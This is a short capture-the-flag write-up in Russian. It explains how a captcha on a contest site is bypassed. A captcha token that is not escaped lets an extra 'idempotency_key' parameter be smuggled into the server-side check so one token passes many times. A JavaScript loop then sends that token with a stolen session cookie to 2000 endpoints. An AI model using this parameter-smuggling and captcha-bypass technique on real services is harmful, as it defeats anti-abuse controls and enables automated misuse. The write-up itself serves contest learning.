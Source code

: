 Надо автоматизировать открытие мусорок, обойдя каптчу.

В файле `check_bin.php` видно, что у токена каптчи слабая валидация, и он не экранируется при вставке в запрос на сервер каптчи. Можно использовать это, чтобы добавить в запрос параметр `idempotency_key=<constant_UUID>`. Этот параметр позволяет сделать так, чтобы сервер каптчи одобрял много запросов на проверку с одинаковым токеном.

Далее в браузере на странице https://t-aandb-j58o5s3y.spbctf.net/?open=1 перехатываем токен каптчи и не даём ему улететь на сервер (это можно сделать, поставив брейкпоинт в девтулзах). Там же нужно взять куку сессии.

Затем отправляем запрос с «хакнутым» токеном в каждую мусорку, чтобы открыть её:

```python
for (let binNum = 1; binNum <= 2000; binNum++) {
  fetch(host, {
    method: 'POST',
    headers: {
      Cookie: cookies,
      'Content-Type': 'application/x-www-form-urlencoded',
    },
    body: `open=${binNum}&token=${encodeURIComponent(`${captchaResponse}&idempotency_key=550e8400-e29b-41d4-a716-446655440000`)}`,
    redirect: 'manual',
  })
}
```

После этого флаг появится на главной странице


